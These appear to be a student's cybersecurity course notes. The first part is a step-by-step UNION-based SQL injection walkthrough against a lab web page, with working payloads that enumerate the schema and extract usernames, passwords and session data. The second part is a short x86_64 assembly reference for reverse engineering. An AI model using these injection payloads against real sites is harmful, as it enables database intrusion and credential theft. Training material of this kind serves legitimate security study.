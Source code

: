 If we wanted to view something specific (cost of a car)
Audi' Union select name,2,cost,type,color FROM session.car #
ex 2:
Audi' Union select id,2,name,pass,5 FROM session.user #
SQL on database GET Method
ex for this one is selecting something from a dropdown menu
Pay attention to URL bar, it should change for each selection

http://10.50.28.178/uniondemo.php?Selection=1&Submit=Submit

http://10.50.28.178/uniondemo.php?Selection=2 OR 1=1 
Above, you're selecting something, then adding a boolean condition to true at the end and testing each one.

Next -> use union to see how many columns are Available.
http://10.50.28.178/uniondemo.php?Selection=2 UNION select 1,2,3

then "Golden statement" ->
http://10.50.28.178/uniondemo.php?Selection=2 UNION select table_schema,column_name,table_name FROM information_schema.columns

final to view something specific ->
ttp://10.50.28.178/uniondemo.php?Selection=2 UNION select studentID,username,passwd FROM session.userinfo 
ex 2:
ttp://10.50.28.178/uniondemo.php?Selection=2 UNION select session_id,user_id,remote_ip FROM session.session_log

**To find a version of SQL server**
UNION select 1,2,@@version
Reverse Engineering
https://sec.cybbh.io/-/public/-/jobs/870086/artifacts/slides/06-reverse-engineering.html

**X86_64 Assembly**
    16 general purpose 64-bit registers.
    %rax - the first return register
    %rbp - the base pointer that keeps track of the base of the stack
    %rsp - the stack pointer that points to the top of the stack

        You will see arguments passed to functions as something like: [%ebp-0x8]

    **X86_64 Assembly - Common Terms**
    HEAP - Memory that can be allocated and deallocated
    STACK - A contiguous section of memory used for passing arguments
    GENERAL REGISTER - A multipurpose register that can be used by either programmer or user to store data or a memory location address
    CONTROL REGISTER - A processor register that changes or controls the behavior of a CPU
    FLAGS REGISTER - Contains the current state of the processor

    **There is one instruction pointer register that points to the memory offset of the next instruction in the code segment:**
    64 bit    lower 32 bits    lower 16 bits    description
    RIP        EIP              IP              instruction point; holds address
                                                for next instruction to be run.

    **X86_64 Assembly - Common Instruction Pointers**
    MOV - move source to destination
    PUSH - push source onto stack
    POP - Pop top of stack to destination
    INC - Increment source by 1
    DEC - Decrement source by 1
    ADD - Add source to destination
    SUB - Subtract source from destination
    CMP - Compare 2 values by subtracting them and setting the %RFLAGS register. ZeroFlag set means they are the same.
    JMP - Jump to specified location
    JLE - Jump if less than or equal
    JE - Jump if equal (uses %RFLAGS register, relies on zero flag)
